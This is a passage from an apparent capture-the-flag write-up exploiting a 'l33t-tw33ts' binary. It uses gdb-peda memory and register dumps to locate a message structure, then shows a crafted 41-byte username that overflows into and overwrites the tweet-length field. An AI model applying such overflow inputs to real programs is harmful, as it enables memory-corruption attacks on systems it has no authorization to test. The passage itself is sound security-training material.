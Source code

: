 ```nasm
0xbfd53fb8: 0x00000000  0x00000000  0x00000000  0x41414141 ; Name is here
0xbfd53fc8: 0x0000000a  0x00000000  0x00000000  0x00000000
0xbfd53fd8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfd53fe8: 0x00000000  0x0000008c  0x00000000  0xb7719000 ; Tweet size is here (0x8c = 140)
0xbfd53ff8: 0xbfd54018  0xb771798a  0xb7717a80  0xb7716000
0xbfd54008: 0xb77179ab  0xb76e4000  0xb77179a0  0xb76e4000
0xbfd54018: 0x00000000  0xb7553a83  0x00000001  0xbfd540b4
0xbfd54028: 0xbfd540bc  0xb7703cea  0x00000001  0xbfd540b4
gdb-peda$
```

The address `0xbfd53f38` is our **save** structure. I checked it twice in `gdb`, at the initialization and after inserting data. 
- The message is at `0xbfd53f38`
- The username is at `0xbfd53fc4`
- The size of the message (or **msglen**) is at `0xbfd53fec`

Note that these addresses will change at each execution with ASLR! Let's exploit the first bug and overwrite the **msglen** with **0x7a** (or **z** in ASCII).

```nasm
gdb-peda$ run

...[snip]...

gdb-peda$ conti
Continuing.
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz>: Tweet @Unix-Dude
>>: BBBB
>: Tweet sent!
[----------------------------------registers-----------------------------------]
EAX: 0xf
EBX: 0xb779a000 --> 0x1efc
ECX: 0xb7770000 (">: Tweet sent!\n", 'A' <repeats 37 times>, "z>: Tweet @Unix-Dude\n")
EDX: 0xb7766898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbf859f28 --> 0x0
ESP: 0xbf859f0c --> 0xb779898a (<main+40>:  mov    eax,0x0)
EIP: 0xb77987ec (<handle_tweet+114>:    ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb77987e4 <handle_tweet+106>:   add    esp,0xd4
   0xb77987ea <handle_tweet+112>:   pop    ebx
   0xb77987eb <handle_tweet+113>:   pop    ebp
=> 0xb77987ec <handle_tweet+114>:   ret
   0xb77987ed <set_tweet>:  push   ebp
   0xb77987ee <set_tweet+1>:    mov    ebp,esp
   0xb77987f0 <set_tweet+3>:    push   ebx
   0xb77987f1 <set_tweet+4>:    sub    esp,0x414
[------------------------------------stack-------------------------------------]
0000| 0xbf859f0c --> 0xb779898a (<main+40>: mov    eax,0x0)
0004| 0xbf859f10 --> 0xb7798a80 ('-' <repeats 44 times>, "\n|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |\n", '-' <repeats 44 times>)
0008| 0xbf859f14 --> 0xb7797000 --> 0x20f34
0012| 0xbf859f18 --> 0xb77989ab (<__libc_csu_init+11>:  add    ebx,0x1655)
0016| 0xbf859f1c --> 0xb7765000 --> 0x1a9da8
0020| 0xbf859f20 --> 0xb77989a0 (<__libc_csu_init>: push   ebp)
0024| 0xbf859f24 --> 0xb7765000 --> 0x1a9da8
0028| 0xbf859f28 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```